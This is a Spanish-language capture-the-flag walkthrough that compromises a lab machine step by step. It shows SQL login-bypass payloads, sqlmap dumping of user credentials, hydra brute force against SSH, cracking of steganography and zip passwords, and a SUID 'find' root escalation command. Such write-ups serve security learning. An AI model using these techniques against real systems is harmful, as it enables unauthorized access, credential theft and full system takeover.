


<p align="center">
    
</p>


Compruebo si está activa
```
ping -c 1 172.17.0.2
```

<p align="center">
    
</p>

---

## Enumeración
### Escaneo de puertos
- Primero hago un reconocimiento de puertos silencioso de los puertos abiertos
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2
```

<p align="center">
    
</p>

**Resultados del escaneo:**

| Puerto | Estado | Servicio |
| ------ | ------ | -------- |
| 22/tcp | open   | ssh      |
| 80/tcp | open   | http     |


Realizamos un segundo escaneo al puerto abierto, lanzando una serie de script por defecto de `nmap` y reconocimiento de servicios.
```
nmap -p22,80 -sVC --min-rate 5000 -n -Pn 172.17.0.2
```

<p align="center">
    
</p>


| Puerto | Estado | Servicio | Versión                        |
| ------ | ------ | -------- | ------------------------------ |
| 22/tcp | open   | ssh      | OpenSSH 9.1p1 Debian 2+deb12u3 |
| 80/tcp | open   | http     | Apache httpd 2.4.61((Ubuntu))  |


---

<h3><center> Análisis del servidor web HTTP (puerto 80)</center></h3>

Al introducir la IP como la dirección URL, la web nos muestra lo siguiente:
<p align="center">
    
</p>

Tenemos un `login`, si ponemos la típica credencial como `admin:admin`.

<p align="center">
    
</p>

Nos muestra un error de `login`. Hago un reconocimiento de las tecnologías con las que está hecha la aplicación web.
```
whatweb http://172.17.0.2
```

<p align="center">
    
</p>


Si probamos login bypass SQL como;

```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
```

<p align="center">
    
</p>

Entraríamos sin problema.

<p align="center">
    
</p>


La aplicación web nos da una pista, pero como no se a lo que se refiere, realizo una enumeración de posibles directorios y ficheros que puedan estar en el servidor web.


#### Fuzzing Web

Primero vamos a usar la herramienta `dirb`, que realiza un escaneo rápido.
```
dirb http://172.17.0.2
```
<p align="center">
    
</p>

No nos encuentra nada. Por lo que utilizo otra herramienta para realizar `FUZZING WEB`. Voy a utilizar `gobuster`.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,txt,bak,py,asp,aspx
```

<p align="center">
    
</p>

Nos muestra un directorio llamado `/page.php`, que es la misma página que nos muestra al realizar el login por medio de `bypass SQL` en la que se puede consultar el clima de una ciudad.
<p align="center">
    
</p>

---

## Enumeración

### SQL Injection

Abriremos BurpSuit para capturar la peticion del login y crear un archivo `request.txt` para utilizar en `sqlmap`.
<p align="center">
    
</p>

<p align="center">
    
</p>

Una vez teniendo la peticion, iniciaremos la herramienta de `sqlmap` de la siguiente forma.

```
sqlmap -r request.txt --dbs
```

<p align="center">
    
</p>


Por lo que vemos a funcionado y nos ha devuelto 2 bases de datos, la que nos interesa es la de `users`.
```
sqlmap -r request.txt -D users --tables
```

<p align="center">
    
</p>


Por lo que vemos contiene una tabla llamada `usuarios`, por lo que haremos lo siguiente.
```
sqlmap -r request.txt -D users -T usuarios --columns
```

<p align="center">
    
</p>

Ahora sabiendo que las columnas se llaman así, podremos ver el contenido de cada una haciendo lo siguiente.
```
sqlmap -r request.txt -D users -T usuarios -C id,username,password --dump
```

<p align="center">
    
</p>

Vemos usuarios y contraseñas, lo primero que hacemos es guardarnos esta información en dos ficheros uno para los usuarios y otro para contraseña.
```
nano users.txt
```
```
nano passwords.txt
```

<p align="center">
    
</p>

Intentamos acceder por medio del servicio `SSH` con esas credenciales pero no tuvimos suerte, por lo que intentaré realizar fuerza bruta para ver si conseguimos asignar a cada usuario su contraseña.

### Hydra
Teniendo el diccionario de usuarios personalizado, realiza un ataque de fuerza bruta. 
```
hydra -L users.txt -P passwords.txt ssh://172.17.0.2 -t 64
```

<p align="center">
    
</p>

No nos encontró nada. Como uno de los usuarios tiene el nombre de `directorio` con su contraseña `directoriotravieso`, realizaré un reconocimiento de posibles rutas, directorios en el servidor web con `gobuster`
```
gobuster dir -u http://172.17.0.2 -w passwords.txt
```

<p align="center">
    
</p>


Nos encuentra un directorio que antes no nos había encontrado. Entramos en la URL
<p align="center">
    
</p>

Encontramos una imagen, la cual la descargamos para ver si por medio de estenografía podemos sacar algo. Así que descargamos la imagen y realizamos la estenografía.

Lo primero es revisar metadatos de la imagen con `exiftool`
```
exiftool miramebien.jpg
```

<p align="center">
    
</p>


No vemos nada interesante, vamos a ver si hay archivos ocultos en la imagen con `steghide`
```
steghide extract -sf miramebien.jpg
```

<p align="center">
    
</p>

Parece que tiene una` passphrase`, para poder crackearla, lo haremos con la herramienta `stegseek`
```
stegseek --crack miramebien.jpg
```

<p align="center">
    
</p>

Si imprimimos la cadena de texto que están en el archivo que creó la herramienta  `stegseek` para crakear la `passphrase`, vemos
```
strings miramebien.jpg.out
```

<p align="center">
    
</p>

Podemos ver que la `passphrase` es **chocolate**, y que dentro oculta un ocultito.zip, el cual dentro tiene un secret.txt

Vamos a extraer ese .zip con `steeghide`
```
steghide extract -sf miramebien.jpg   # después ponemos la passphrase chocolate
```

![[Pasted image 20250102211620.png#]]

Obtenemos el fichero oculto `ocultito.zip`.  Descomprimimos en fichero
```
unzip ocultito.zip
```

<p align="center">
    
</p>

Cuando intentamos extraer el contenido del zip, podemos ver que nos pide nuevamente una`pass`, pero esta vez no es `chocolate`, por lo que vamos a crakear este zip con la herramienta de `zip2john` 

Convertimos el fichero `.zip` aun formato compatible con `JohnTheRipper`
```
zip2john ocultito.zip > john_oculto
```

<p align="center">
    
</p>


Teniendo el archivo en formato compatible con `john`, el fichero `jhon_oculto`, lo utilizamos para buscar la posibles contraseñas que tiene el fichero `.zip`.
```
john --wordlist=/usr/share/wordlists/rockyou.txt john_oculto
```

<p align="center">
    
</p>


Si **visualizamos** la información que ha sido extraída del archivo ZIP `ocultito.zip` y almacenada en el formato compatible con `John the Ripper` en el archivo "`john_oculto`".
```
john --show john_oculto
```

<p align="center">
    
</p>


Como podemos ver la` pass` de este .zip es` stupid1`

Vamos a ver lo que contiene el `secret.txt`. Descomprimimos el fichero `ocultito.zip`
```
unzip ocultito.zip
```
```
cat secret.txt
```

<p align="center">
    
</p>

Dentro del secret.txt hay unas credenciales, por lo que vamos a probar si son válidas y efectivamente, tenemos credenciales para conectarnos por `SSH`
```
ssh carlos@172.17.0.2    # Después podemos la contraseña carlitos
```

<p align="center">
    
</p>

Estamos dentro con el usuario `carlos`. 

---

## POST-EXPLOTACIÓN

### Elevar privilegios

Buscamos binarios que pueda ejecutar el usuario `carlos`.
```
sudo -l
```

<p align="center">
    
</p>

Me indica que el usuario `carlos`, no puede ejecutar el comando `sudo`, por lo que buscamos binarios con permisos `SUID`.
```
find / -perm -4000 2>/dev/null
```

<p align="center">
    
</p>

Encontramos uno que me llama la atención que es `find`, si vamos a la web de y buscamos el binario `find` por `SUID` [GTFObins][https://gtfobins.github.io/gtfobins/find/#suid]
nos indica que ejecutando el siguiente comando podemos obtener privilegios de `root`.
```
/usr/bin/find . -exec /bin/bash -p \; -quit
```

<p align="center">
    
</p>

Somos el usuario `root`.

